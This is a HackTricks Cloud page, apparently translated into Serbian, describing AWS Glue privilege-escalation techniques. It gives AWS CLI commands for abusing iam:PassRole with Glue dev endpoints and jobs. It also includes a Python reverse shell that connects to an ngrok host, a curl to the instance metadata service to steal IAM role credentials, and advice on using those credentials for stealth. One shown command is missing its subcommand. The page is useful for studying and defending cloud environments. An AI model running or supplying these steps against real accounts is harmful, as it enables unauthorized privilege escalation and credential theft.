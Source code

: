 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Korisnici sa ovim dozvolama mogu **postaviti novu AWS Glue razvojnu tačku**, **dodeljujući postojeću servisnu ulogu koju Glue može preuzeti** sa specifičnim dozvolama ovoj tački.

Nakon postavljanja, **napadač može SSH-ovati u instancu tačke**, i ukrasti IAM akreditive dodeljene ulozi:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Za svrhe prikrivanja, preporučuje se korišćenje IAM kredencijala iznutra Glue virtuelne mašine.

**Potencijalni uticaj:** Privesc na ulogu servisa glue koja je navedena.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Korisnici sa ovom dozvolom mogu **promeniti postojeći Glue razvojni** endpoint SSH ključ, **omogućavajući SSH pristup njemu**. Ovo omogućava napadaču da izvršava komande sa privilegijama uloge koja je povezana sa endpoint-om:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potencijalni Uticaj:** Privesc na ulogu servisa glue koja se koristi.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Korisnici sa **`iam:PassRole`** u kombinaciji sa bilo kojim od **`glue:CreateJob` ili `glue:UpdateJob`**, i bilo kojim od **`glue:StartJobRun` ili `glue:CreateTrigger`** mogu **napraviti ili ažurirati AWS Glue posao**, pridružujući bilo koji **Glue servisni nalog**, i pokrenuti izvršenje posla. Mogućnosti posla uključuju izvršavanje proizvoljnog Python koda, što se može iskoristiti za uspostavljanje reverzibilne ljuske. Ova reverzibilna ljuska se zatim može koristiti za eksfiltraciju **IAM kredencijala** uloge pridružene Glue poslu, što može dovesti do potencijalnog neovlašćenog pristupa ili radnji na osnovu dozvola te uloge:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potencijalni Uticaj:** Privesc na ulogu glue servisa koja je specificirana.

### `glue:UpdateJob`

Samo sa dozvolom za ažuriranje, napadač bi mogao da ukrade IAM kredencijale već prikačene uloge.

**Potencijalni Uticaj:** Privesc na ulogu glue servisa koja je prikačena.

## Reference

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
